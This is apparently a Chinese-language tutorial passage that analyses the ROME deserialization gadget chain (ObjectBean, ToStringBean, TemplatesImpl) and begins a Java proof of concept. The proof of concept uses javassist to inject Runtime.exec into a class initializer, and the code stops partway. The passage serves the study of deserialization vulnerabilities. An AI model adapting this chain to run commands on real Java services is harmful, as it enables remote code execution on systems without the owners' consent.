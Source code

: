 ![image-20221123113715498](images/5.png)

此时的_obj是ObjectBean

所以这里也回到了ObjectBean的toString

![image-20221123113924507](images/6.png)

跟进toStringBean的toString

![image-20221123114002486](images/7.png)

看看这个类的构造方法

![image-20221123114029046](images/8.png)

beanClass和obj是我们可控的

这里根据ysoserial打过来的payload传入的obj是TemplatesImpl类，通过截取后prefix就是TemplatesImpl

跟进toString，这里就是一个重点地方了，通过这里去调用了TemplatesImpl的getOutputProperties方法

![image-20221123120530396](images/9.png)

这个getPropertyDescriptors获取`_beanClass`所有的getter和setter方法

在获取完任意 getter 方法后，做了一系列基本的判断 ———— 确保 getter 方法不为空，确保能够调用类的 getter 方法，确保里面可以传参，这后面注释也写的很清楚

完成判断后，执行

```java
Object value = pReadMethod.invoke(_obj,NO_PARAMS);
```

来到了TemplatesImpl的getOutputProperties方法

![image-20221123132856136](images/10.png)

接下来就是熟悉的加载字节码了

至于hashCode方法，在学习CC6的时候，可以知道可以从hashtable或者hashmap调用到这里的hashCode方法

# poc编写

## POC1

```
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;

public class Test {
    public static void main(String[] args) throws Exception{
        ClassPool classPool = ClassPool.getDefault();
        CtClass ctClass = classPool.makeClass("a");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open /System/Applications/Calculator.app\");";
        ctClass.makeClassInitializer().insertBefore(cmd);
        ctClass.setSuperclass(classPool.get(AbstractTranslet.class.getName()));
        byte[] bytes = ctClass.toBytecode();
```